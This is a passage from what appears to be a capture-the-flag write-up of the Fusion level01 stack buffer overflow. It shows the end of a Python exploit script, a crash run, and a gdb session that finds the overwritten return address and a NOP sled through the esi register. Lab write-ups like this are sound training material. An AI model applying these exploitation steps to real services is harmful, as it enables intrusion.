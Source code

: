 ```
if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20001,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```

As expected, when it was ran, it crashed, and dumped a core. 

```
fusion@fusion:~$ ./level01.py
[*] Connecting to 127.0.0.1 on port 20001
fusion@fusion:~$ ls /tmp
core-level01-11-20001-20001-2222-1341317061
```

So I loaded it into gdb to look at the dump. 

```
fusion@fusion:~$ sudo gdb -q --core=/tmp/core-level01-11-20001-20001-2222-1341317061
[New LWP 2222]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) i r
eax            0x1      1
ecx            0xb772d8d0       -1217210160
edx            0xbfa65d90       -1079616112
ebx            0xb78a5ff4       -1215668236
esp            0xbfa65d90       0xbfa65d90
ebp            0x41414141       0x41414141
esi            0xbfa65e44       -1079615932
edi            0x8049ed1        134520529
eip            0xdeadbeef       0xdeadbeef
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Initially, this shows that our return address did get hit successfully, since "0xdeadbeef" is the overwritten EIP. I then started exploring each of the registers to see if there was anything of interest.  I found that my shellcode was actually being stored in the esi register, or at least the start of the nop-sled was: 

```
(gdb) x/10x $esi
0xbfa65e44:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfa65e54:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfa65e64:     0x90909090      0x90909090
```
